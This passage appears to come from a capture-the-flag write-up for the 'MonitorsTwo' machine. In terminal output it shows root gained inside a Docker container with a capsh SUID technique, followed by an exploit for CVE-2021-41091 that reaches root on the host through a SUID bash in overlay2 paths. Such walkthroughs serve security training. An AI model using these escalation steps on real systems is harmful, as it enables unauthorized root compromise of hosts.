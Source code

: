 ```bash
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /bin/su

^D

[+] capsh
[*] Getting capsh escalation technique from gtfobins.github.io.
>
>	sudo install -m =xs $(which capsh) .
>
>	./capsh --gid=0 --uid=0 --
>
>	source: https://gtfobins.github.io/gtfobins/capsh
```

```bash
bash-5.1$ capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

> So we got `root` in the docker container.
{: .prompt-info }

Now add the SUID flag to `/bin/bash` as we need this to elevate our privileges on the host machine.
```bash
chmod u+s /bin/bash
ls -lsah /bin/bash
1.2M -rwsr-xr-x 1 root root 1.2M Mar 27  2022 /bin/bash
```

Lets switch back to the host machine as user `marcus`.
After we uploaded `exp.sh` to the target we run the exploit
```bash
marcus@monitorstwo:/tmp$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:/tmp$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```